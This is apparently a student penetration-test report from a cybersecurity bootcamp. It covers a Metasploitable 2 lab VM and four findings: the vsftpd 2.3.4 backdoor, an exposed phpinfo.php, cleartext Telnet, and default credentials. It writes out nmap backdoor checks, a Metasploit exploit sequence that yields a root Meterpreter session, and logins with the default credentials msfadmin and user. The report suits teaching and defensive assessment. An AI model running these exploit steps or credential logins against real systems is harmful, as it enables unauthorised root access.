







Prepared by: Aazib Ali Course: Digital Forensics & Cyber Security Bootcamp, Atomcamp Trainer: Waseem Abbas Khan Date of Assessment: 7 November 2026 Classification: Student Lab Exercise — Not for Distribution
Target environment:
| Role | OS | IP Address | Network |
|---|---|---|---|
| Attacker | Kali Linux | 192.168.88.133 | NAT |
| Target | Metasploitable 2 (Ubuntu-based Linux) | 192.168.88.134 | NAT |
Engagement type: Grey-box Simulation type: Reconnaissance, exploitation and post-exploitation
This assessment was conducted against a single Linux host (Metasploitable 2) in an isolated NAT laboratory environment. The engagement covered network discovery, port scanning, automated vulnerability scanning (GVM/OpenVAS), manual CVE research, and controlled exploitation using the Metasploit Framework.
Findings summary:
| Severity | Count |
|---|---|
| Critical | 1 |
| High | 2 |
| Medium | 1 |
| Total | 4 |
Highest severity: Critical (CVSS 9.8)
Primary impact: An unauthenticated attacker with network access to port 21 can gain complete root-level control of the target host — full read and write access to all data, including database services running on the same machine — without any credentials and without any action from a legitimate user. A second finding confirms that default credentials are valid on two separate services, meaning the same access is achievable even without the backdoor.
Engagement type: Grey-box — the target IP address was known in advance; no source code or credentials were provided at the start.
Scope type: Grey-box Target IP: 192.168.88.134 (Metasploitable 2) Testing window: 7 November 2026 Network: Isolated NAT — target not reachable from any external network
Methodology (in order performed):
Exclusions: - No denial-of-service techniques were used - No data was exfiltrated from the target - No persistence mechanisms were installed - All activity was limited to the lab target IP only
Legal context: All techniques were performed exclusively against a lab-owned virtual machine with no external network connectivity. No activity was directed at any system outside the authorised lab scope. Exploitation against any system without written authorisation is a criminal offence under Pakistan’s Prevention of Electronic Crimes Act 2016 and in every comparable jurisdiction.
Severity: CRITICAL — CVSS 9.8 Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H Affected asset: 192.168.88.134:21/tcp — vsftpd 2.3.4 Identifiers: CVE-2011-2523 | CWE-78 (OS Command Injection) | cpe:/a:vsftpd:vsftpd:2.3.4
Description: The FTP server on port 21 was running vsftpd 2.3.4. This version contains a backdoor introduced through a supply-chain compromise: between 30 June and 3 July 2011, the official download server served a tampered archive. When a specific character sequence is supplied as the FTP username, the backdoor triggers and opens a command shell on port 6200/tcp with no authentication required.
Proof of concept:
Step 1 — Discovery (nmap version detection):
nmap -sV -p21 192.168.88.134 Result: 21/tcp open ftp vsftpd 2.3.4
Explanation: Version detection identified the exact vulnerable build.

Step 2 — Validation (NSE script):
nmap -p21 –script ftp-vsftpd-backdoor.nse 192.168.88.134 Result: VULNERABLE — uid=0(root) gid=0(root)
Explanation: The NSE script triggered the backdoor and confirmed root-level code execution.

Step 3 — Exploitation (Metasploit):
msfconsole -q use exploit/unix/ftp/vsftpd_234_backdoor set RHOSTS 192.168.88.134 set LHOST 192.168.88.133 exploit
Result: [+] Backdoor has been spawned! [*] Meterpreter session 1 opened (192.168.88.133:4444 -> 192.168.88.134:39725)
meterpreter > getuid Server username: root
meterpreter > shell whoami → root id → uid=0(root) gid=0(root)
Explanation: Metasploit triggered the backdoor and established a
Meterpreter session. Both getuid and shell-level id confirm full
root-level access with no credentials used at any point.

Impact: Any party able to reach port 21 can obtain unauthenticated remote code execution as root. The same host also runs MySQL (3306) and PostgreSQL (5432), so a compromise also exposes any data held in those services.
Remediation: 1. Upgrade vsftpd to a current, stable release. 2. Verify vendor package signatures before deployment. 3. If FTP is not required, disable the service entirely. 4. Restrict port 21 to named source addresses if FTP is business-critical.
References: - https://nvd.nist.gov/vuln/detail/CVE-2011-2523 - https://security-tracker.debian.org/tracker/CVE-2011-2523 - https://www.exploit-db.com/exploits/49757
Severity: MEDIUM — CVSS 5.3 (approx) Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N Affected asset: 192.168.88.134:80/tcp — Apache httpd, PHP 5.2.4-2ubuntu5.10 Identifiers: CWE-200 (Exposure of Sensitive Information)
Description: The file /phpinfo.php is publicly accessible with no authentication. It exposes the complete server configuration including PHP version, OS version, internal file paths, and loaded modules — all without any login required.
Proof of concept:
Step 1 — Detection (NSE script):
nmap -p80 –script http-enum.nse 192.168.88.134 Result: /phpinfo.php: PHP info page detected

Step 2 — Confirmation (curl):
curl -s http://192.168.88.134/phpinfo.php | head -40 Result: PHP Version 5.2.4-2ubuntu5.10, System: Linux metasploitable 2.6.24-16-server, Config path: /etc/php5/cgi/php.ini

Explanation: The file returned complete internal server configuration with no login or credential required at any point.
Impact: An attacker learns the exact software versions and server layout without performing any exploitation, reducing the effort required to select a targeted exploit.
Remediation: Remove phpinfo.php from the production server. Debugging files must never be deployed to live environments.
References: - https://cwe.mitre.org/data/definitions/200.html
Severity: HIGH — CVSS 7.5 (approx) Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N Affected asset: 192.168.88.134:23/tcp — Linux telnetd Identifiers: CWE-319 (Cleartext Transmission of Sensitive Information)
Description: The target is running Telnet on port 23. Telnet transmits all data including usernames and passwords in plain text with no encryption. This is a design-level weakness, not a CVE: the protocol was built before encryption was a standard requirement.
Proof of concept:
Step 1 — Detection:
nmap -sV -p23 192.168.88.134 Result: 23/tcp open telnet Linux telnetd

Step 2 — Connection confirmed:
telnet 192.168.88.134 23 Login: msfadmin / Password: msfadmin Result: successful login — system banner displayed
The system itself warned: “Never expose this VM to an untrusted
network!” 
Explanation: The login succeeded with no encryption at any point. Any attacker on the same network segment capturing this traffic would see the username and password in plain text.
Impact: An attacker on the same network segment can capture a Telnet session and read credentials directly from the packets.
Remediation: Disable Telnet and replace with SSH. If Telnet must remain for a legacy reason, restrict it strictly to a trusted internal network behind a VPN.
References: - https://cwe.mitre.org/data/definitions/319.html
Severity: HIGH — CVSS 8.1 Vector: CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H Affected assets: FTP (21/tcp), SSH (22/tcp) — 192.168.88.134 Identifiers: CWE-1392 (Use of Default Credentials)
Description: Two service accounts were found using default, publicly documented credentials: user:user and msfadmin:msfadmin. These are published in the product documentation and are the first pair any attacker would try. No software vulnerability is required.
Proof of concept:
Step 1 — FTP login with default credentials:
ftp 192.168.88.134 Name: user Password: user Result: 230 Login successful.

Step 2 — SSH login with default credentials:
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa msfadmin@192.168.88.134 Password: msfadmin Result: successful authentication
Note: a legacy host key algorithm flag was required, confirming the SSH service itself is also outdated — an additional configuration weakness.

Explanation: Both services granted interactive access using credentials that are a matter of public record, with no further verification.
Impact: Authenticated access to the host is possible without exploiting any software vulnerability. Once authenticated, further privilege escalation via sudo is likely, and the same credentials may be valid across other services on the same network.
Remediation: 1. Change all default credentials before any system is network-reachable. 2. Enforce minimum password length of 10+ characters with complexity. 3. Deploy a banned-password list covering rockyou.txt entries. 4. Disable accounts that are not required. 5. Enable MFA on all remotely reachable administrative interfaces.
References: - https://cwe.mitre.org/data/definitions/1392.html
| Priority | Finding | Severity | Action |
|---|---|---|---|
| 1 — Immediate | vsftpd 2.3.4 backdoor | Critical | Upgrade vsftpd; verify package signatures |
| 2 — Immediate | Weak default credentials | High | Change all default passwords before network exposure |
| 3 — High | Telnet cleartext | High | Disable Telnet; replace with SSH |
| 4 — Medium | Exposed phpinfo.php | Medium | Remove debugging files from production |
Raw nmap scan outputs: - scan-default.txt - scan-versions.txt - scan-backdoor-check.txt - scan-http-enum.txt - scan-telnet.txt
Screenshots are in the screenshots/ folder. All exploitation steps are documented in exploitation-writeup.md. GVM comparison is documented in gvm-comparison.md.